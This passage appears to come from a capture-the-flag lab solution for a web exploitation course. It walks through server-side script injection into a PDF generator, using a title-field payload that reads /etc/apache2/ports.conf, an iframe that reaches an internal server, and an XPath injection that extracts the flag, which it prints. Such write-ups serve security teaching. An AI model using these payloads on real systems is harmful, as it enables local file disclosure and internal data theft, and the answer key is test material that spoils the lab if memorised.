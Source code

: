 ```html
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write((this.responseText))
	};
	x.open("GET", "file:///etc/apache2/ports.conf");
	x.send();
</script>
```

It's important that the injected code is placed as the `title` field and not the `comment` one:

![[HTB Solutions/CWEE/z. images/156b59c113a03915bb925068e20c84d4_MD5.jpg]]

```http
id=1&title=%3Cscript%3E%0D%0A%09x+%3D+new+XMLHttpRequest%28%29%3B%0D%0A%09x.onload+%3D+function%28%29%7B%0D%0A%09%09document.write%28%28this.responseText%29%29%0D%0A%09%7D%3B%0D%0A%09x.open%28%22GET%22%2C+%22file%3A%2F%2F%2Fetc%2Fapache2%2Fports.conf%22%29%3B%0D%0A%09x.send%28%29%3B%0D%0A%3C%2Fscript%3E&desc=Our+custom+CPU+with+the+most+cores+and+the+highest+clock+speed+in+the+world.&comment=comment
```

![[HTB Solutions/CWEE/z. images/c41c61939dbc6f5554f67e8cb3d3f8a4_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/736c33e859048dca884b2e1377de4585_MD5.jpg]]

Now that the port is known, students need to interact with the internal web server:

```html
<iframe src="http://127.0.0.1:8000/" width="800" height="500"></iframe>
```

![[HTB Solutions/CWEE/z. images/e3787f6a6c6baf04f8eb9b25fdbb564b_MD5.jpg]]

```http
id=1&title=%3Ciframe+src%3D%22http%3A%2F%2F127.0.0.1%3A8000%2F%22+width%3D%22800%22+height%3D%22500%22%3E%3C%2Fiframe%3E&desc=Our+custom+CPU+with+the+most+cores+and+the+highest+clock+speed+in+the+world.&comment=comment
```

After forwarding the request and viewing the PDF attained, students will notice that the internal web application allows viewing orders by querying an XML document and specifying the order ID via the `q` GET parameter (as implied by the "Note to dev" note):

![[HTB Solutions/CWEE/z. images/56eb645fcca8589c599106af59f40b9f_MD5.jpg]]

Subsequently, students need to exfiltrate the flag by injecting an XPath payload that will return the element with the substring "HTB", finding it to be `HTB{9a424de6e92e0153d0c51ad602e0204f}`:

```html
<iframe src="http://127.0.0.1:8000/?q=INVALID or contains(.,'HTB')" width="800" height="500"></iframe>
```
```http
id=1&title=%3Ciframe+src%3D%22http%3A%2F%2F127.0.0.1%3A8000%2F%3Fq%3DINVALID+or+contains%28.%2C%27HTB%27%29%22+width%3D%22800%22+height%3D%22500%22%3E%3C%2Fiframe%3E&desc=Our+custom+CPU+with+the+most+cores+and+the+highest+clock+speed+in+the+world.&comment=comment
```

